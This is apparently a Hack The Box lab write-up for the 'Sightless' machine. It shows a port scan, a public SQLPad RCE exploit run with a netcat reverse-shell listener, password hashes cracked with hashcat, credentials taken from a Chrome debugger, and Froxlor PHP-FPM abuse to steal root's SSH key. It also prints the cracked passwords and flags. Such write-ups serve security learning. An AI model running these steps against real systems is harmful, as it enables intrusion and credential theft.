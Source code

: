 ```yaml
---
title: "HTB Seasonal: Sightless"
author: "v3l1d"
date: "2024-10-23"
---
```



![](attachment/3c53323d2941b4f7ea6cae026cd9a5fe.jpg)

**Port Scanning**

```shell
# Nmap 7.94SVN scan initiated Sat Oct 19 07:30:38 2024 as: nmap -sC -sV -A -T4 -o port_scan 10.10.11.32
Nmap scan report for 10.10.11.32
Host is up (0.055s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/19%Time=6713986B%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 19 07:31:50 2024 -- 1 IP address (1 host up) scanned in 72.13 seconds

```

On port 80 you can find:
![](attachment/8db1342a35138b47d996fa54bd247351.png)

Go trough SQLPad pushing on start now and you'll be redirected to SQLPAD console and you can fetch SQLPad version:

![](attachment/9b1808231436cb591e9d9f85527fdd63.png)

**Version 6.10.0 identified, let's try find out something about:

![](attachment/2bf35d48995bbaeef6b26b37d2d20de1.png)

URL: https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944/tree/main

Let's clone the repository and try to run the exploit, while listening on a wished port from another terminal:

```shell
┌──(kali㉿kali)-[~/HTB/Sightless/sqlpad-rce-exploit-CVE-2022-0944]
└─$ python3 exploit.py http://sqlpad.sightless.htb 10.10.14.113 9091
---------------------------------------------------------------------
┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ nc -lnvp 9091
listening on [any] 9091 ...
```

And got the shell:


![](attachment/fe342ce104a9a7cfb82690372af1f7f2.png)

There's a file sqlpad.sqlite:
![](attachment/9ee6825e92c38020c4d8b7f7fbb9f070.png)

In this file are present some interesting parts:

```
admin@sightless.htbadmin$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n8t.
����1john@sightless.htb3        admin@sightless.htb
```

Meanwhile try to run a linpeas on sqlpad machine:
![](attachment/cb5e7e14d62ecb6a8111c1d31d0440bd.png)

![](attachment/a0f88f95ba5694f4e5d41dc034b8ce87.png)

There's an hash for user **micheal** in passwd file:

```
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7::
```

Try to crack it with hashcat:

```shell
┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ # Example command for Hashcat
hashcat -m 1800 -a 0 -o cracked_micheal_hash.txt micheal_user_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
......
Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa....L2IJD/
Time.Started.....: Sat Oct 19 08:58:04 2024 (43 secs)
Time.Estimated...: Sat Oct 19 08:58:47 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1344 H/s (8.77ms) @ Accel:64 Loops:1024 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 58496/14344384 (0.41%)
Rejected.........: 0/58496 (0.00%)
Restore.Point....: 58432/14344384 (0.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4096-5000
Candidate.Engine.: Device Generator
Candidates.#1....: jhoselin -> iloverhys
Hardware.Mon.#1..: Util: 89%

Started: Sat Oct 19 08:58:02 2024
Stopped: Sat Oct 19 08:58:49 2024

┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ cat cracked_micheal_hash.txt 
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse


```

Try ssh into **michael**:

![](attachment/e86b9c94c5913aea4b70e9b7e3fb03cc.png)

```
userflag:9dc449a3cd76e16166ea0ae08bd65880
```

By analyzing services running on port:

![](attachment/c6a62ceea6e4a4ba4721657b76a164e5.png)

During ports forwarding trough SSH i found that there's froxlor running on 8080, but isn't reachable due the missing of it's domain name. Inspecting other ports i found that port 40975 is the port of an available chrome debugger:

![](attachment/91d6ba2807b9fbb33ce0dc23bd8ee157.png)

![](attachment/70fff9de0a46ccc3364d2458727d946c.png)

```
admin:ForlorfroxAdmin
```


![](attachment/46aef148daacdeee888551a751e330d5.png)

![](attachment/82f88746687d4741f0f013bf84f1f829.png)

After saving the PHPFM configuration disable and enable this by settings panel after querying 
`http://127.0.0.1:8080/admin_settings.php?start=phpfpm`

Now redo this procedure with the chmod command on id_rsa file just copied:

```
chmod 644 /tmp/id_rsa
```

![](attachment/51da7e56b9548e78bc8115eeb77b66b8.png)

After a bit the command will be executed and you will be able to use id_rsa to login into root's ssh:

![](attachment/b21470aaf193edff2e229c3637135c2c.png)

```
rootflag: 7a2a1b4afb44130a744827929fe643d3
```
